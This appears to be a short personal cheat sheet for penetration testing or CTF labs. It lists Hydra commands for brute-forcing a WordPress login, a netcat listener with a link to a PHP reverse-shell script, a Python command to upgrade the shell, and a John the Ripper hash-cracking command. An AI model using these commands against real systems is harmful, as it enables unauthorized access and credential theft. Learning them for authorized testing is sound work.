 _______________________________________________________________________________
Hydra for web:
- with list: ```hydra -L usernameList.txt -P PasswordList.txt 10.10.12.13 http-post-form "/wp-login.php: log=^USER^&pwd=^PWD^: Invalid username"```
- singular username and password: ```hydra -l username -p fsocity dic 10.10.12.13 http-post-form "/wp-login.php: log=^USER^&pwd=^PWD^: Invalid username"```
_______________________________________________________________________________
Reverse Shell - php:
  rlwrap nc -lnvp 53
  Use this php script to send us a reverse shell from the target side - pentestmonkey :
    https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

because reverse shells don't spawn in an interactive shell, this command can spawn an interactive shell in the reverse shell:
    ```python -c 'import pty;pty.spawn("/bin/bash")'```

For more exploits check out this cheat sheet:
    https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

_______________________________________________________________________________
John the Ripper:
  john --worlist=/directory/to/worlist --format=[type of hash] [file with hash inside].txt


